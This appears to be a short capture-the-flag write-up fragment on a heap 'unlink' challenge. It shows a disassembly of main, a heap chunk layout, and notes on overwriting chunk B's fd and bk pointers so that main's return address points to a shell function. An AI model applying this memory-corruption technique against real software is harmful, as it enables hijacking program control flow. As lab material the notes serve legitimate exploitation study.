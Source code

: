 shell@0x80484eb

sal := stack address leak
hal := heap address leak

main eip@sal+0x2c

disassemble main:
```
0x080485f2 <+195>:	call   0x8048504 <unlink>
0x080485f7 <+200>:	add    $0x10,%esp
0x080485fa <+203>:	mov    $0x0,%eax
0x080485ff <+208>:	mov    -0x4(%ebp),%ecx
0x08048602 <+211>:	leave
0x08048603 <+212>:	lea    -0x4(%ecx),%esp
0x08048606 <+215>:	ret
```

`$ebp-0x4 = return address` and `sal+0x10 = $ebp-0x4`

==== heap =====
```
hal-0x10:   ?           ?           ?           0x19
hal+0x00:   A->fd       A->bk       A->buf      A->buf
hal+0x10:   0x0         0x19        B->fd       B->bk
hal+0x20:   B->buf      B->buf      0x0         0x19
hal+0x30:   C->fd       C->bk       C->buf      C->buf
hal+0x40:   0x0         ?           ?           ?


A@hal
B@hal+0x18
C@hal+0x30
```

So if we do:

```
BK = B->bk <= main eip address
FD = B->fd <= A->buf (with shell address)
```